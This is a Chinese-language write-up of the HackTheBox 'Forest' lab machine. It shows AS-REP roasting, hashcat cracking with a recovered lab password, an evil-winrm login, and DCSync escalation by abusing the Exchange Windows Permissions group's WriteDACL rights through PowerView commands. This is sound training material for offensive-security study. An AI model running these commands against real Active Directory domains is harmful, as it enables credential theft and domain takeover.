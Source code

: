 ```yaml
---
title: Hackthebox-Forest-Windows_Active
date: 2025-04-23 20:00:00
tags: 红队
categories: 红队打靶-Windows_Active
---
```


# 信息收集

## nmap

![image-20250423105813529](./Forest-Windows-Active/image-20250423105813529.png)

## 135端口-rpcclient

RPC存在匿名认证，枚举用户

![image-20250423142756813](./Forest-Windows-Active/image-20250423142756813.png)

GetNPUsers.py枚举不需要Kerberos域认证的用户

![image-20250423150909040](./Forest-Windows-Active/image-20250423150909040.png)

![image-20250423151058048](./Forest-Windows-Active/image-20250423151058048.png)

```
hashcat -m 18200 -a0 password.txt /usr/share/wordlists/rockyou.txt
```

![image-20250423151409024](./Forest-Windows-Active/image-20250423151409024.png)

```
svc-alfresco:s3rvice
```

开放了5985端口，使用`evil-winrm`配合该账号密码远程连接

```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

## 提权

### 提权思路：

在域环境中，如果安装Exchange后，系统会添加一个名为Microsoft Exchange Security Groups、Exchange Trusted Subsystem和Exchange Windows Permission三个组。如果获得了这三个组内任意用户的控制权限，就能够继承用户组的WriteDACL权限，WriteDACL权限可以修改域对象的ACL，最终实现利用DCSync导出域内所有用户hash，实现权限提升的目的。

### 前置知识

域控制器(DC)是Active Directory(AD)域的支柱，用于高效的管理域内用户，所以在企业当中，为了防止DC出现意外导致域内瘫痪，所以都是要布置多台域控作为AD域的备份，或者是部署多台域控制器，方便在站点位置本地提供身份验证和其他策略。当企业内网当做部署了多台域控制器后，一台域控进行了数据的更改之后，需要与其他域控进行数据的同步，而这个同步是通过Microsoft的远程目录复制服务协议 (MS-DRSR),该协议是基于MSRPC / DCE/RPC )进行的。并且其 DRS 的 Microsoft API 是DRSUAPI(这个在后面抓包可以看到)。。在不同域控制器（DC）之间，每 15 分钟都会有一次域数据的同步。当一个域控制器（DC 1）想从其他域控制器（DC 2）获取数据时，DC 1 会向 DC 2 发起一个 GetNCChanges 请求，该请求的数据包括需要同步的数据。如果需要同步的数据比较多，则会重复上述过程。DCSync 就是利用的这个原理，通过 Directory Replication Service（DRS） 服务的 GetNCChanges 接口向域控发起数据同步请求。

### 滥用writeDACL 权限实现权限提升

![image-20250423164258990](./Forest-Windows-Active/image-20250423164258990.png)

`SVC-ALFRESCO`用户是`Service Account`的成员，`Service Account`是`Privileged It Account`的成员，`Privileged It Account`是`Account Operators`的成员，

`Account Operators`对`Exchange windows Permissions`有`GenericAll`权限

`Account Operators `该组的成员可以创建和管理该域中的用户和组并为其设置权限，也可以在本地登录域控制器。但是，不能更改属于Administrators或Domain Admins组的账号，也不能更改这些组。

`exchange windows permission`组的成员对`htb.local`拥有`writeDACL`权限

思路：创建新用户加入`exchange windows permission`组，然后修改`htb.local`的`writeDACL`权限为`DCSync（前置知识中有介绍）`

```powershell
net user abc abc123! /add /domain

 net group "Exchange Windows Permissions" abc /add
 
 $SecPassword = ConvertTo-SecureString 'abc123!' -AsPlain -Force //将明文密码转换为 SecureString 类型
 
 $Cred = New-Object System.Management.Automation.PSCredential('htb\abc', $SecPassword) //创建一个包含用户名和加密密码的凭据对象
 
upload PowerView.ps1
 
Import-Module .\PowerView.ps1
 
Add-DomainObjectAcl -PrincipalIdentity abc -Credential $Cred  -Rights DCSync //将DCsync权限授予abc用户
```

![image-20250423164227328](./Forest-Windows-Active/image-20250423164227328.png)

得到管理员的密码的hash值也可以远程连接windows

![image-20250423170033016](./Forest-Windows-Active/image-20250423170033016.png)
